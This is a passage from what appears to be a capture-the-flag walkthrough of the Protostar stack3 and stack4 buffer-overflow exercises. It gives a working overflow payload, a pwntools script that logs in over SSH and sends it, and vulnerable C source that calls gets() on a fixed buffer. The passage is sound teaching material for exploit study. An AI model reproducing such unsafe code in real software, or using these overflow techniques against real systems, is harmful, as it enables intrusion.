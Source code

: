<br/>

Getting the address of the win function
```bash
$ objdump -x stack3 | grep win
  08048424 g     F .text  00000014              win
```

<br/>

Causing a overflow and then jumping to the win function.
```bash
$ (python -c "print 'A'*64 + '\x24\x84\x04\x08'";) | ./stack3
  calling function pointer, jumping to 0x08048424
  code flow successfully changed
```

<br/>

Now let's script this
```python
from pwn import *
import paramiko

user = 'user'
password = user
host = '<ip>'

s = ssh(user=user,password=password,host=host)
p = s.run('/opt/protostar/bin/stack3')

#objdump -x stack3 | grep win
payload = b'a'*64 + p32(0x08048424)
p.sendline(payload)
p.interactive()
```

<br/>

## Stack 4

Source code
```c
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

void win()
{
  printf("code flow successfully changed\n");
}

int main(int argc, char **argv)
{
  char buffer[64];

  gets(buffer);
}
```
